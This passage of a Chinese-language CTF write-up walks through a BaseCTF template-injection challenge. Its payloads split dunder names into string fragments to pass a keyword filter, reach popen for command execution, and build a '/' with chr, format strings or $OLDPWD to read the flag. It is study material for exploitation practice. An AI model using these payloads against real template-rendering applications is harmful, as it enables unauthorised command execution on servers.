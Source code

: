 ```Go
BaseCTF{%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137])%}
```

接着使用这个类里的 `popen` 函数来 RCE

```Go
BaseCTF{%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen']('pwd')['rea''d']())%}
```

因为过滤了斜杠和反斜杠，无法直接跳到根目录，这里提供三个方法来获取斜杠来跳到根目录

法一：利用 chr 函数来构造出一个命令

先找到 chr

```Go
BaseCTF{% set chr= ''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['_''_bui''ltins_''_']['chr']%}
{% print(chr) %}
```

接着用 chr 搭配上数字构造出想要执行的命令

```Go
BaseCTF{% set chr= ''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['_''_bui''ltins_''_']['chr']%}
{% set cmd='cat '~chr(47)~'flag' %}
{%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen'](cmd)['rea''d']())%}
```

最后把 cmd 作为 popen 的参数传递进去，即可得到 flag

同理，利用 format 来得到 `/` 也是可以的

```Go
BaseCTF{% set cmd='cat '~'%c'%(47)~'flag' %}
{%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen'](cmd)['rea''d']())%}
```

法二：利用环境变量的值

查看环境变量，可以看到 `OLDPWD=/`

```Go
BaseCTF{%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen']('env')['rea''d']())%}
```

此时可以直接利用它来切换到根目录，然后再读flag

```Go
BaseCTF{%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen']('cd $OLDPWD;cat flag')['rea''d']())%}
```

法三：利用 `expr substr` 切割出一个 `/`

比如 pwd 中的第一个字符就是 `/` ，那用 `expr substr` 切割出来后，之后就可以像法二那样切换到根目录然后读 flag 了
